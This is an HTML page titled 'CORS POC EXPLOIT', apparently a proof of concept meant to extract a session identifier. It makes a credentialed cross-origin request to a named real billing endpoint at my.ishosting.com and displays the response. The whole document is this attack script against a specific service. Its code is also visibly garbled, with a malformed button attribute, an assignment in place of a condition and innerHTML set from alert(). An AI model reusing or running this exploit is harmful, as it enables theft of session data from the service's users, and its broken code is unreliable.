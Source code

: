 # man
</!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC EXPLOIT</h2>
<h3>Extract SID</h3>
<div  id="demo">
<button type="button onclick="cors()">EXploit</button>
</div>

<script>
function cors() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function(){
		if (this.readystatechange = function() {
			document.getElementById('demo').innerHTML = alert(this.responseText);
		}
	};
	xhttp.open("GET", "https://my.ishosting.com/en/billing/balance/add", true);
	xhttp.withCredentials = true;
	xhttp.send();

}
</script>
</body>
</html>
